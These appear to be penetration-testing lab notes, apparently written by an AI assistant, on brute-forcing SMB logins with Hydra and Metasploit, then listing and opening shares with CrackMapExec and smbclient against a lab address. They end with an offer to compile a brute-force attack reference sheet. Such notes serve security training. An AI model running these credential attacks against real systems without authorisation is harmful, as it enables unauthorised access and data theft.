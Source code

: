 

## Hydra Method

```
hydra -L user.list -P password.list smb://10.129.42.197
```

Success output:

```
[445][smb] host: 10.129.42.197   login: user   password: password
```

Notes:

- Limit to **1 task** → SMB doesn’t like parallel attempts
    
- Error:
    
    ```
    [ERROR] invalid reply from target smb://10.129.42.197:445/
    ```
    
    → often caused by SMBv3 incompatibility
    
- Fix: use **Metasploit** instead
    

---

## Metasploit SMB Login

```
msfconsole -q
use auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list
set rhosts 10.129.42.197
run
```

Success:

```
[+] 10.129.42.197:445 - Success: '.\user:password'
```

---

## Enumerating SMB Shares (CME)

```
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```

Example output:

```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
SHARENAME       READ,WRITE
IPC$            READ            Remote IPC
```

---

## Accessing SMB Shares

```
smbclient -U user \\\\10.129.42.197\\SHARENAME
```

Prompt:

```
Enter WORKGROUP\user's password:
```

Inside:

```
smb: \> ls
  .                DR      0   Thu Jan  6 18:48:47 2022
  ..               DR      0   Thu Jan  6 18:48:47 2022
  desktop.ini     AHS    282   Thu Jan  6 15:44:52 2022
```

---

Do you want me to merge **SSH / RDP / SMB / WinRM brute-force notes** into one **attack reference sheet** for side-by-side comparison?
